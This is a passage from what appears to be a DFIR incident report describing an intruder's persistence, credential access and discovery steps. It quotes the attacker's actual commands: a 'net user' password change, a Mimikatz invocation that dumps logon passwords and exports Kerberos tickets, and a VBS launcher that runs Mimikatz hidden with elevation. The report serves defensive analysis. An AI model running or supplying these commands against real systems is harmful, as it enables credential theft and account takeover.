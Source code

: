 This script is copied to C:\Windows\PolicyDefitions\ and run, which causes the files specified to be hidden.


Persistence
-----------


Before the threat actor disconnected, they changed the user password.



```
net user %USERNAME% ehs.123
```

Credential Access
-----------------


[Mimikatz](https://github.com/gentilkiwi/mimikatz) was used to dump credentials from memory, as well as, export Kerberos tickets using the following command:



```
mimikatz.exe", """log"" ""privilege::debug"" ""sekurlsa::logonpasswords"" ""sekurlsa::tickets /export"" ""exit"""
```

![](https://thedfirreport.com/wp-content/uploads/2021/01/33.png)


The threat actors used a vbs script named launch to execute mimikatz. This is the content of launch.vbs



```
set shell=CreateObject("Shell.Application")  
shell.ShellExecute "mimikatz.exe", """log"" ""privilege::debug"" ""sekurlsa::logonpasswords"" ""sekurlsa::tickets /export"" ""exit""", "", "runas", 0  
set shell=nothing
```

Since the log parameter was used, the output was saved to mimikatz.log


![](https://thedfirreport.com/wp-content/uploads/2021/01/11.png)


The Kerberos tickets were saved to disk, due to the threat actor using sekurlsa::tickets /export.


![](https://thedfirreport.com/wp-content/uploads/2021/01/k.png)


### Discovery


Advanced IP Scanner was used to scan the environment.


![](https://thedfirreport.com/wp-content/uploads/2021/01/12.png)
